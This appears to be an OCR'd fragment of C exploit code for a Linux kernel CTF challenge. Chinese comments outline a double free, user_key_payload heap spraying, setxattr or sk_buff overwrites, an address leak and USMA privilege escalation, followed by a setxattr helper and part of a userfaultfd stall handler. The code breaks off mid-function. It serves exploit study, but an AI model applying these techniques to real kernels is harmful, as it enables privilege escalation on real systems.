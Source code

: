 ```c
// 因此，我们首先申请到obj，并将其释放
// 使用user_key_payload（因为它是GFP_KERNEL）堆喷保证获取到题目的obj
// 再次释放，使用sk_buff或者setxattr来改写内容，使其能够使用user_key_payload越界读获取地址
// 随后，思考提权的方法。我们很难想到有GFP_KERNEL的结构体来进行提权。
// 因此，采取USMA进行提权即可。

// 写一下思路, 题目提供一个0x200的GFP_KERNEL的obj的double free
// add, delete, 使用合适大小的user_key_payload占据(不要被临时obj卡住)

void *setxattr_func(void* content)
{
    info("Fun callled.");
    // setxattr("/exploit", "ltfall", content, 0x200, 0);
    setxattr("/exploit", "ltfall", content, 0x200, 0);
    return NULL;
}

void *uffd_handler_sleep3(void *args)
{
    struct uffd_msg msg;
    int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long)args;

    for (;;)
    {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1)
        {
            err_exit("poll");
        }

        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
        {
            err_exit("EOF on userfaultfd!\n");
        }

        if (nread == -1)
        {
            err_exit("read");
        }

        if (msg.event != UFFD_EVENT_PAGEFAULT)
        {
            err_exit("Unexpected event on userfaultfd\n");
        }

        /* Write your code here */
        info("Start to sleep3....");
        sleep(3);
        info("My sleep is over...");
        
```